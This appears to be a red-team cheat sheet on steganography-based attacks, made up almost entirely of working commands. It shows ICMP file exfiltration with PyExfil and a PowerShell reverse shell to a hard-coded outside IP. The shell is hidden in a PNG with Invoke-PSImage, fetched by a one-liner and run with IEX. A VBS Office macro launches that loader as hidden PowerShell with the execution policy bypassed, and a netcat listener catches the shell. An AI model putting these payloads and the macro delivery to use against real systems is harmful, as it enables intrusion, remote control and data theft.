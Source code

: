 # Stego Red Team

## Data Exfiltration using ICMP 8

* PyExfil: https://github.com/ytisf/PyExfil

* Target: `python -c 'from pyexfil.network.ICMP.icmp_exfiltration import send_file;ip_addr = "127.0.0.1";send_file(ip_addr, src_ip_addr="127.0.0.1", file_path="/home/kali/stego/PyExfil/1.txt", max_packetsize=512, SLEEP=0.1)'`

* Server: `tcpdump -A icmp -i lo`

## Remote Access using PSImage

* PSImage: https://github.com/peewpw/Invoke-PSImage

* `echo '$client = New-Object System.Net.Sockets.TCPClient("46.101.222.52",444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' > payload.ps1`
* `Import-Module .\Invoke-PSImage.ps1`
* `Invoke-PSImage -Script .\payload.ps1 -Out .\evil.png -Image .\image.png -Web`
* `sal a New-Object;Add-Type -A System.Drawing;$g=a System.Drawing.Bitmap((a Net.WebClient).OpenRead("http://46.101.222.52/evil.png"));$o=a Byte[] 1920;(0..0)|%{foreach($x in(0..1919)){$p=$g.GetPixel($x,$_);$o[$_*1920+$x]=([math]::Floor(($p.B-band15)*16)-bor($p.G -band 15))}};IEX([System.Text.Encoding]::ASCII.GetString($o[0..500]))`
* Create a VBS Macro: 
```
Sub RunAndGetCmd()

    strCommand = "Powershell -W Hidden -Exec Bypass -Command ""sal a New-Object;Add-Type -A System.Drawing;$g=a System.Drawing.Bitmap((a Net.WebClient).OpenRead('http://46.101.222.52/evil.png'));$o=a Byte[] 1920;(0..0)|%{foreach($x in(0..1919)){$p=$g.GetPixel($x,$_);$o[$_*1920+$x]=([math]::Floor(($p.B-band15)*16)-bor($p.G -band 15))}};IEX([System.Text.Encoding]::ASCII.GetString($o[0..500]))"""
    Set WshShell = CreateObject("WScript.Shell")
    Set WshShellExec = WshShell.Exec(strCommand)
    strOutput = WshShellExec.StdOut.ReadAll

End Sub
```
* `nc -nlvp 444`

## Awsome Tools

* SpookFlare: https://artofpwn.com/spookflare.html
* Packet Whisper: https://github.com/TryCatchHCF/PacketWhisper
